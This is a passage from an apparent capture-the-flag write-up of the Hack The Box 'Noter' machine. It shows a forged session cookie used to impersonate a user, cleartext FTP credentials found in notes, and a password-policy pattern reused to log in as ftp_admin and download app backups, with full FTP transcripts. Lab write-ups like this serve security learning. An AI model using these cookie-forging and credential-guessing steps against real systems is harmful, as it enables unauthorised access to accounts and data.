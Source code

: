 Change the browser session cookie and refresh the page, and boom we are `blue`! 
**Note**: As a VIP user we can Import and Export notes.

![[Pasted image 20220523091605.png]]

### Step 3
Blue have two notes and in one of them we find the clear text credentials to the FTP - `blue:blue@Noter!`
But we also find the username `ftp_admin`.
![[Pasted image 20220523091853.png]]

Login to the FTP using found credentials. Within we find the file `policy.pdf`, download the file and review it.

```bash
➜  noter ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:void): blue 
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24 20:59 policy.pdf
226 Directory send OK.
ftp> mget *
mget policy.pdf? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
226 Transfer complete.
12569 bytes received in 0.00 secs (9.2992 MB/s)
```

The pdf is a password policy, and within we find the line;
*"Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)"*

We can try if this applies to `ftp_admin:ftp_admin@Noter!` as well.

```bash
➜  noter ftp 10.10.11.160                                                                           
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:void): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01 05:52 app_backup_1638395546.zip
226 Directory send OK.
ftp> mget *
mget app_backup_1635803546.zip? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for app_backup_1635803546.zip (25559 bytes).
```